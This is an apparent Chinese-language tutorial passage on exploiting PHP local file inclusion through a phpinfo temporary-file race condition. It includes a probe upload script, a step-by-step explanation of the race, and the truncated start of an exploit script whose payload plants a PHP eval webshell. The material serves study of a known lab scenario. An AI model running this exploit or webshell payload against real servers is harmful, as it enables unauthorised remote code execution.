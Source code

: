 编写脚本，上传文件探测是否存在phpinfo包含临时文件的信息。

```
import requests

files = {
  'file': ("aa.txt","ssss")
}
url = "http://x.x.x.x/phpinfo.php"
r = requests.post(url=url, files=files, allow_redirects=False)
print(r.text)
```

运行脚本向服务器发出请求可以看到回显中有如下内容

`Linux`

[![](./img/201136/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t018d1d61d49d5af756.png)

`Windows`

[![](./img/201136/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01b4d0f072cf1b60e9.png)

<a class="reference-link" name="%E5%88%A9%E7%94%A8%E5%8E%9F%E7%90%86"></a>**利用原理**

验证了phpinfo的特性确实存在，所以在文件包含漏洞找不到可利用的文件时，我们就可以利用这一特性，找到并提取临时文件名，然后包含之即可Getshell。

但文件包含漏洞和phpinfo页面通常是两个页面，理论上我们需要先发送数据包给phpinfo页面，然后从返回页面中匹配出临时文件名，再将这个文件名发送给文件包含漏洞页面，进行getshell。在第一个请求结束时，临时文件就被删除了，第二个请求自然也就无法进行包含。

<a class="reference-link" name="%E5%88%A9%E7%94%A8%E8%BF%87%E7%A8%8B"></a>**利用过程**

这个时候就需要用到条件竞争，具体原理和过程如下：

（1）发送包含了webshell的上传数据包给phpinfo页面，这个数据包的header、get等位置需要塞满垃圾数据

（2）因为phpinfo页面会将所有数据都打印出来，1中的垃圾数据会将整个phpinfo页面撑得非常大

（3）php默认的输出缓冲区大小为4096，可以理解为php每次返回4096个字节给socket连接

（4）所以，我们直接操作原生socket，每次读取4096个字节。只要读取到的字符里包含临时文件名，就立即发送第二个数据包

（5）此时，第一个数据包的socket连接实际上还没结束，因为php还在继续每次输出4096个字节，所以临时文件此时还没有删除

（6）利用这个时间差，第二个数据包，也就是文件包含漏洞的利用，即可成功包含临时文件，最终getshell

（参考ph牛：[https://github.com/vulhub/vulhub/tree/master/php/inclusion](https://github.com/vulhub/vulhub/tree/master/php/inclusion%EF%BC%89) ）

<a class="reference-link" name="Getshell"></a>**Getshell**

利用ph牛的代码，不用重复的造轮子，直接更改脚本主要的几个地方就可以成功运行利用，如上传的恶意文件内容、phpinfo.php和index.php相应文件的文件名和位置、系统临时文件写入目录等

`exp.py`

```
#!/usr/bin/python
#python version 2.7

import sys
import threading
import socket

def setup(host, port):
    TAG = "Security Test"
    PAYLOAD = """%sr
&lt;?php file_put_contents('/tmp/Qftm', '&lt;?php eval($_REQUEST[Qftm])?&gt;')?&gt;r""" % TAG
    # PAYLOAD = """%sr
    # &lt;?php file_put_contents('/var/www/html/Qftm.php', '&lt;?php eval($_REQUEST[Qftm])?&gt;')?&gt;r""" % TAG
    REQ1_DATA = """-----------------------------7dbff1ded0714r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"r
Content-Type: text/plainr
r
```